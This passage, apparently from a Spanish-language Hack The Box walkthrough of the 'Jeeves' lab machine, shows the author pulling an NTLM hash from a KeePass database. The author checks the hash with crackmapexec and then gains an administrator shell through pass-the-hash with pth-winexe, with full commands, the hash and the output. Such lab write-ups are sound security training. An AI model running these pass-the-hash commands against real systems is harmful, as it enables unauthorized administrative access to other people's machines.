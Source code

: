 Ya tenemos la contraseña `moonshine1`, así que vamos a utilizarla y ver el contenido del archivo `CEH.kdbx`.

![""](/assets/images/htb-jeeves/jeeves-keepass1.png)

Viendo los usuarios, tenemos uno de nombre `?` y tiene de contraseña `aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00` que parece ser un hash NTLM; por lo que podríamos pensar que sería el hash del usuario **Administrator**. Vamos a validarlo:

```bash
❯ crackmapexec smb 10.10.10.63 -u 'Administrator' -H 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00'
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\Administrator aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
```

Vemos que podemos hacer *pass the hash* como el usuario **Administrator** ya que tenemos un `[+]` y al final un `(Pwn3d!)`.

```bash
❯ pth-winexe -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.10.10.63 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
jeeves\administrator

C:\Windows\system32>
```
